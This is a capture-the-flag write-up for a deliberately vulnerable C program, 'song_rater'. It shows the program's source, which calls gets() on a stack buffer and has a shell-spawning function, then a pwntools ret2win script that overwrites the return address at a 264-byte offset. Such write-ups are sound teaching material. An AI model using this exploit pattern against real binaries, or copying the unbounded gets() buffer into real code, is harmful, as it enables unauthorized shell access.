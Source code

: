 # Description

Can you get this program to do what you want?

# Solution

We are given a bunch of files, we only care about the dockerfile to know the location of the 
flag and the C source code `song_rater.c` (the binary `song_rater` is x64 - run with `checksec`).
Lets look at the source code:
```C
void scratched_record() {
	printf("Oh no, your record seems scratched :(\n");
	printf("Here's a shell, maybe you can fix it:\n");
	execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

int main() {
	printf("Song rater v0.1\n-------------------\n\n");
	char buf[0xff];
	printf("Please enter your song:\n");
	gets(buf);
	printf("\"%s\" is an excellent choice!\n", buf);
	return 0;
}
```

This is a very simple ret2win, we only need to rewrite the return address of main to point to `scratched_record()` function
and we get the shell:
- first, get the RIP offset by using the cyclic command and inspecting the stack
  
<img width="449" alt="Untitled (2)" src="https://github.com/AdamZvara/CTF/assets/36104483/c34313b4-3736-4fc6-afa3-046632734cc3">

<img width="503" alt="Untitled" src="https://github.com/AdamZvara/CTF/assets/36104483/f6dc46b4-9435-4db7-afaf-c3395df18981">

Now we know that the offset is at 264B. Next we just need to insert the address of the scratched_record function (since no PIE is 
used, we can use the address directly). Here is the payload:
```python
offset = 264

# Start program
io = start()

print(elf.sym['scratched_record'])

# Build the payload
payload = flat({
    offset: [
        elf.sym['scratched_record']
    ]
})

# Send the payload
io.sendlineafter(b':\n', payload)

print(io.recvuntil(b':\n'))
io.interactive()
```

Upload it and get the flag

<img width="276" alt="Untitled (1)" src="https://github.com/AdamZvara/CTF/assets/36104483/db49075b-b8f6-4ba9-b4b0-3c4a6e70fd48">
